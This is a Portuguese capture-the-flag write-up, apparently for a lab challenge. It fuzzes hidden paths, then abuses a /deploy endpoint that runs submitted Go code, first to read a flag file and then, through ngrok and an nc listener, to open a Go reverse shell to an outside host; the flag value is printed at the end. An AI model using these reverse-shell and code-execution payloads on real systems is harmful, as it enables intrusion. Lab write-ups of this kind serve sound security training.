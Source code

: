 Para acessar o desafio, siga estas etapas:

Acesse a página do desafio. Ao entrar, você verá a seguinte imagem:

![alt text](images/init.png)

Após encontrar irá utilizar fuzer, com o ffuf ou gobuster para encontrar path que não estão aparente, após rodar irá encontrar os seguintes path

```sh
/public -> pasta publica
/health -> verificação de container ativo
/deploy
```

após encontrar a pasta publica terá que encontrar um arquivo dentro dela mas a mesma só recebe query params, segue a imagem abaixo:

![alt text](images/public.png)

com base nisso terá que rodar um novo fuzzer mas com uma terminação aparente que é .sh, após rodar o fuzzy irá encontrar a seguinte arquivo.

![alt text](images/deploy.png)


Após encontrar esse arquivo, ele irá dar uma flag por conta do fuzz, com isso iremos rodar o comando que achamos.

```sh
curl -X POST -d 'package main

import (
	"fmt"
	"os/exec"
)

func main() {
	// Comando para executar o script shell
	cmd := exec.Command("cat", "/root/flag.txt")

	// Executa o comando e captura a saÃ­da
	output, err := cmd.CombinedOutput()
	if err != nil {
		fmt.Println("Erro ao executar o script:", err)
		return
	}

	// Imprime a saÃ­da do script
	fmt.Println(string(output))
}
' http://localhost:8080/deploy

```
Retornando o seguinte valor:

![alt text](images/deploy-exec.png)

Com o retorno acima identificamos que não tem flag nesse arquivo mas nos dar portas para acessar esse container usando shell reverse em golang.

Primeiro passo crie um proxy reverse com ngrok

![alt text](images/ngrock.png)

Após subir o container coloque o seu ngrock no campo do shell com shell reverse para a port a do seu nc

nc 
```sh
nc -l 127.0.0.1 4444
```
curl
```sh
curl -X POST -v \
  -d 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","seu_host_aqui_com_a_porta");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' \
```

![alt text](images/connect.png)

Após rodamos o seguinte comando:

```sh
/bin/bash -i 
```

Agora vá para pasta chamada public/flag_pwn.txt

```sh
cat ../public/flag_pwn.txt
# Extreme{6630db853468e9c768a584981349e924}
```
